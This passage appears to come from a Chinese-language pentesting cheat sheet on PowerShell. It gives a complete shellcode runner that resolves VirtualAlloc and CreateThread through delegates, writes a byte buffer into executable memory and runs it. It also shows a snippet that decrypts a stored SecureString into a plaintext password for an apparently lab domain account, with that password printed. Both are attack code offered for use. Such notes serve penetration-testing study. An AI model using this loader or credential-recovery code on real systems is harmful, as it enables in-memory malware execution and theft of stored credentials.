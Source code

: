 ```powershell
# 使用委托的简单Shellcode运行器
$VirtualAllocAddr = LookupFunc "Kernel32.dll" "VirtualAlloc"
$CreateThreadAddr = LookupFunc "Kernel32.dll" "CreateThread"
$WaitForSingleObjectAddr = LookupFunc "Kernel32.dll" "WaitForSingleObject" 


$VirtualAlloc = Get-Delegate $VirtualAllocAddr @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$CreateThread = Get-Delegate $CreateThreadAddr @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$WaitForSingleObject = Get-Delegate $WaitForSingleObjectAddr @([IntPtr], [Int32]) ([Int])

[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0 ...

$mem = $VirtualAlloc.Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $mem, $buf.Length)
$hThread = $CreateThread.Invoke([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
$WaitForSingleObject.Invoke($hThread, 0xFFFFFFFF)

```

## 安全字符串转换为纯文本

```ps1
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
$user = "HTB\Tom"
$cred = New-Object System.management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## 参考资料

* [Windows & Active Directory Exploitation Cheat Sheet and Command Reference - @chvancooten](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)
* [Basic PowerShell for Pentesters - HackTricks](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)